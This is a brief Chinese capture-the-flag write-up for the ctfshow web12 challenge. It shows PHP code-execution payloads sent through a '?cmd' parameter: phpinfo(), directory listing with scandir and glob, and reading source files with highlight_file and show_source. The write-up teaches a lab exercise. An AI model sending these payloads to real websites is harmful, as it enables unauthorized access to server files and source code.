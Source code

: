 ## ctfshow web12
查看网页源代码发现 ?cmd
![图片](https://user-images.githubusercontent.com/81904597/113653035-9822ae00-96c7-11eb-9fbe-2ee06d317b0c.png)
目测考察命令执行
输出一下phpinfo()
```
?cmd=phpinfo();
```
里面禁用了很多函数
![图片](https://user-images.githubusercontent.com/81904597/113653163-e172fd80-96c7-11eb-88c1-a5df058909e2.png)

查看一下目录的文件(两种方式)
```
?cmd=print_r(scandir('.'));
?cmd=print_r(glob("*"));
```
![图片](https://user-images.githubusercontent.com/81904597/113653282-1ed78b00-96c8-11eb-9319-97b2312427af.png)
利用下面的让代码显示一下即可
```
highlight_file()
show_source()
```
